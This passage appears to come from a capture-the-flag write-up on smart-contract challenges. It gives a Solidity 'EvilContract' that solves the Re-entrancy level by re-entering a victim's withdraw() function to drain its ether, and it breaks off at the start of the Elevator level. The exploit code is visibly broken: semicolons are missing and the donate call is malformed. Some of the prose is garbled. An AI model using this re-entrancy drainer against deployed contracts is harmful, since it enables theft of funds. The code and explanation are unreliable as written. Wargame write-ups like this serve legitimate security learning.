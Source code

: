 A quick read about Re-entrancy attack is all we need: [HackerNoon Article](https://hackernoon.com/hack-solidity-reentrancy-attack).

![Reentrancy method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138011/6b9b88336f13d99f52296f5874086643de346fe2aa6dbd66098162a244b11b6c_ztdmmm.png)  

So he is actually our balance after the call that's all we need !

-----
**Exploitation** 

```js
interface Reentrance {

    function donate(address _to) external payable;
    function withdraw(uint amount) public;
}

contract EvilContract {
    Reentrance victimContract;
    address victimAddress;
    uint donatedValue;

    constructor(address _victimAddress) public payable {
        // Set our victim contract, fund the contract.
        victimContract = Reentrance(_victimAddress);
        victimAddress= _victimAddress
    }

    function attack(uint _donatedValue) public {
        victimContract.donate.value(address(this),{value:_donatedValue});
        victimContract.withdraw(_donatedValue);
        donatedValue=_donatedValue
    }

    function() public payable {
        // Receiver for funds withdrawn by the attack
            if(victimAddress.balance>= donatedValue )
            victimContract.withdraw(msg.value);
        }
}
```

Now we should just do some arithmetic to clear all the funds and not having to donate again and withdraw. If we have 1 ether as initial balance keep it to multipliers of 10 and so on.

Challenge solved ✅

## Elevator

`with trust, everyone can get to the last floor`

**Challenge description**

This elevator won't let you reach the top of your building. Right?
